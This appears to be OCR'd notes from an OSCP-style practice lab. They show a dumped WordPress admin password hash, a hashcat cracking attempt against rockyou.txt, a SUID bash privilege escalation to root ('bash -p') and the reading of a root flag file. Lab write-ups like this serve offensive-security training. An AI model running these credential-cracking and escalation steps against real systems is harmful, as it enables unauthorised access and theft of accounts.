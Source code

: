 


mysql> select * from wp_users;
+----+------------+------------------------------------+---------------+-------------------+------------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url               | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+-------------------+------------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$Bx9ohXoCVR5lkKtuQbuWuh2P36Pr1D0 | admin         | offsec@offsec.com | http://192.168.128.135 | 2020-07-09 06:12:49 |                     |           0 | admin        |
+----+------------+------------------------------------+---------------+-------------------+------------------------+---------------------+---------------------+-------------+--------------+
1 row in set (0.00 sec)


hashcat -m400 "admin:$P$Bx9ohXoCVR5lkKtuQbuWuh2P36Pr1D0" --user rockyou.txt  --show

no result

https://stackoverflow.com/questions/63689353/suid-binary-privilege-escalation

/usr/bin/bash -p

uid=1000(oscp) gid=1000(oscp) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd),1000(oscp)

wc -l /root/flag.txt

